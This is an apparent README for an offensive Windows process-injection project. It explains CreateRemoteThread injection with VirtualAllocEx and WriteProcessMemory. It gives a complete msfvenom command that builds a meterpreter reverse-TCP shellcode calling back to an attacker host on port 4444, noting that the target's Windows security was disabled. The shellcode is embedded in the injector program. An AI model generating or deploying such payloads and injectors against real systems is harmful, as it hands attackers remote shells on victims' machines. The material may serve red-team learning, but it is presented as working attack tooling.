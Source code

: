 # Windows-Process-Injection

### 1. CreateRemoteThreat Injection
To test the waters, we first implement the classic CreateRemoteThread injection which uses VirtualAllocEX() for allocation, WriteProcessMemory() for writing, and CreateRemoteThread() for execution.
The shellcode hardcoded in the cpp program is a reverse shell generated using msfvenom with the following config:
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 -f c -a x64 --platform windows -o ~/Documents/reverse_staged.c
```
the same payload is fed to meterpreter for the reverse shell.
For this phase, no evasion or encoding are implemented and we simply deactivated Windows security on the target machine.
